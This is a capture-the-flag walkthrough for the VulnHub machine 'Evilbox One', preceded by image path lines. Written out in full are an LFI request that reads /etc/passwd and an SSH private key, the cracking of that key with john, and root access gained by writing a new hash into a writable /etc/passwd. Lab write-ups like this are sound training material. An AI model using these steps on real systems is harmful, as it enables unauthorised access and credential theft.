







# Evilbox CTF

[vulnhub_link] (https://www.vulnhub.com/entry/evilbox-one,736/)

## Ip finding

`fping -aqg 192.168.xxx.0\24`
>    Note: you can use netdiscover

## Nmap scan

| Port | State | Service |
|------|-------|---------|
| 22/tcp | open | ssh |
| 80/tcp | open | http |

## Http server

## Enumeration

`gobuster dir -w wordlist.txt -u IP -rx html,php,txt`

| Code 200 Output |
|--------------------|
| /index.html |
| /robots.txt |
| /secret |

> inside the directory `/secret` it just a blank page and nothing more, but maybe there's something?

## Inspecting /secret directory

enumerating `/secret` show's that there is a file named `evil.php`

messing around a little bit, show's that `evil.php` can lead to LFI

`http://<yourIP>/secret/evil.php?command=../../../../etc/passwd`

In the `passwd` file there are one user with username `mowree`, since the nmap scan result shows us that ssh are open, maybe mowree have `id_rsa` in `/home/.ssh/`?

## Log in to ssh with id_rsa & first flag

To log in with mowree id_rsa, we need to crack the id_rsa first

1. `chmod 600 id_rsa`
2. `ssh2john id_rsa > hash`
3. `john --wordlist=rockyou.txt hash`

After the password was cracked, then log in to ssh

> the first flag can be found at `/home/mowree`

## Getting root access & root flag

Messing around with the machine, i find out that `/etc/passwd` are writeable.

[Read more of Weak file permission here](https://juggernaut-sec.com/weak-file-permissions/)

with that, i can create a new password for root user with this command

1. `openssl passwd toor` (or your choosen password)
2. copy the output and paste it in `/etc/passwd`

3. then run `su` command and give the password you choose

> the root flag can be found at `/root`
